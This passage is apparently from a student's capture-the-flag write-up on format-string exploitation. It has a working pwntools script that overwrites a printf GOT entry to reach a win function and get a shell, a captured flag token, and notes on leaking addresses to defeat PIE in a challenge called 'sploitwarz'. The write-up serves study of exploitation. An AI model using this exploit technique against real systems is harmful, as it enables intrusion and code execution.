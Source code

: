 Third byte: At 133, need 0x04 = 4
Hence we write 256 - 133 + 4 = 127 bytes.

Fourth byte: At 4, need 0x08 = 8
Hence we write 8 - 4 = 4 bytes.
However, this doesn't seem to overwrite it correctly, so instead I overflow it and
then add 4, making the payload length 256 + 4 = 260.

------------------ 
``` 
p = remote("plsdonthaq.me", 4003)

# Since the protections are disabled, we can simply hardcode the address for both
# the GOT entry for printf, and the address of the win function.
printfGOT = 0x8049c18
win = 0x8048536

# Our format string then consists of the 4 address offsets that we are going to write
# to, and then for each byte of the win function's address, we get the decimal value
# and add that many bytes to the payload, using %n to write this amount to the address
format_str = (
  p32(printfGOT) + p32(printfGOT + 1) + p32(printfGOT + 2) + p32(printfGOT + 3) +
  b"%38x" + b"%3$hhn" +
  b"%79x" + b"%4$hhn" +
  b"%127x" + b"%5$hhn" +
  b"%260x" + b"%6$hhn"
)

# We then send the format string as input
p.sendline(format_str)

# And once entered the win function, we have access to a shell to get the flag
p.interactive()
```

sploitwarz
=========================== 
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNC1zcGxvaXR3YXJ6IiwiaXAiOiIyMjAuMjQwLjgyLjk2Iiwic2Vzc2lvbiI6IjM3NWU5MWY4LTFhZDAtNDYwMC05MzgyLWE0ZjI3ZWQ5ZWY4NCJ9.jMMA5JTRduygwrv6ieUveVhPk5AVNMxzsCGMqe-rSmc}
 
General overview of problems faced 
------------------------------------- 
Looking in binary ninja, there is a win function at 0xab4. However, if we run gdb with the program and use the command checksec, it shows PIE is enabled (we can also use the gdb command pie to determine the offest being used). Hence, since the win function is in the text/code region, its address will change each time we run, so we can't hardcode the address into our script. Instead, we need to leak an address, and then access the win function relative to this address.

When running the program, there are many different functions that can be called. To try and find a format string vulnerability, I tried entering the string AAAA.%p.%p.%p.%p.%p as input for my name (note I did a '.' rather than a space so it doesn't strip the %p's from my name), and then looked for a call to printf that would display this format string. 
